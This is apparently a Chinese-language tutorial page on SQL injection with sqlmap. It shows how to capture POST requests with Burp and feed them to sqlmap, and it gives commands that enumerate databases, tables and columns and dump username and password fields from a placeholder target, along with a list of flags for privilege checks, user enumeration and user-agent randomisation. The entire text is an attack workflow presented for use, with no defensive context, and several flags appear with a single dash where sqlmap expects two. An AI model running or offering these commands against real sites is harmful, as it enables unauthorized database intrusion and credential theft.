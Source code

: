 ##### 从post数据包中注入

可以使用burp等工具来抓包结合sqlmap进行注入：

+ 抓包请求文件：

1.浏览器打开目标地址。

2.用burp抓包。

3.将burp抓到的post请求复制到一个txt文件(随便命名，下方用到，如：1.txt)。

4.sqlmap指令：

```
sqlmap -r 1.txt -f
```

+ burp log 文件：

通过加载burp的日志文件进行扫描注入：

```
sqlmap -l xxx.txt -f -dbs...
```

[![cIt0n1.md.png](https://z3.ax1x.com/2021/04/18/cIt0n1.md.png)](https://imgtu.com/i/cIt0n1)

#### 基本注入命令

+ 查询数据库：

```
sqlmap -u "http://xx.xx.xx.xx/index.php?id=1" -dbms mysql -level 3 -dbs
```

+ 查询指定数据库中的表：

```
sqlmap -u "http://xx.xx.xx.xx/index.php?id=1" -dbms mysql -level 3 -D 要查的数据库名 -tables
```

+ 查询指定表中的字段：

```
sqlmap -u "http://xx.xx.xx.xx/index.php?id=1" -dbms mysql -level 3 -D 要查的数据库名 -T 表名 -columns
```

+ 查询具体的字段(如：username，password字段)：

```
sqlmap -u "http://xx.xx.xx.xx/index.php?id=1" -dbms mysql -level 3 -D 要查的数据库名 -T 表名 -C "username,password" -dump
```

#### 常用命令参数

+ -is-dba 当前用户权限(是否为root权限)
+ -dbs 所有数据库
+ -current-db 网站当前数据库
+ -users 所有数据库用户
+ -current-user 当前数据库用户
+ -random-agent 构造随机的user-agent
+ -password 数据库密码
+ -proxy ``http://local:8080`` -threads 10(可以自定义线程加速)代理
+ -time-sec=TIMESEC DBMS 响应的延迟时间(默认为5秒)
